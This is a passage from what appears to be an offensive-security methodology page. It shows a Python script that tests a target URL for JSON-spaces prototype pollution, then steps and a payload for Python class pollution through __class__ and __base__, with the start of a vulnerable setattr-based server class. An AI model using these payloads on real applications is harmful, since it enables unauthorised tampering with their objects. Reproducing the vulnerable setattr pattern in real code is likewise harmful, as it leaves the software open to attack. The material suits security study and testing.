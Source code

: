           session = requests.Session()
           session.post(url, json=pollution_payload)
           
           # Now request an endpoint that returns JSON
           response = session.get(url + "/api/data")
           
           # Check the raw response for excessive spaces
           raw_response = response.text
           
           # If successful, the JSON should have 10-space indentation
           # We can detect this by looking for patterns like:
           # {
           #           "key": "value"
           # }
           
           if '          "' in raw_response:
               print("JSON spaces pollution successful!")
               print("Raw response sample:")
               print(raw_response[:200] + "..." if len(raw_response) > 200 else raw_response)
               return True
           
           print("JSON spaces pollution unsuccessful")
           return False
       
       # Example usage
       check_json_spaces_pollution("https://vulnerable-api.com")
       ```

  - **Python class pollution techniques**
    1. **Basic class attribute manipulation**:
       - Step 1: Identify Python applications that dynamically set object attributes
       - Step 2: Test if you can access and modify the `__class__` attribute:
       ```python
       # Payload structure
       {
           "__class__": {
               "__qualname__": "PollutedClass"
           }
       }
       ```
       - Step 3: Check the response for signs that the class name was changed
       - Step 4: Attempt to modify `__base__` to affect parent classes
       - Step 5: Escalate to more dangerous attribute modifications
       - Example Python class pollution:
       ```python
       # Server-side vulnerable code
       class User:
           def __init__(self, data):
               for key, value in data.items():
                   setattr(self, key, value)
       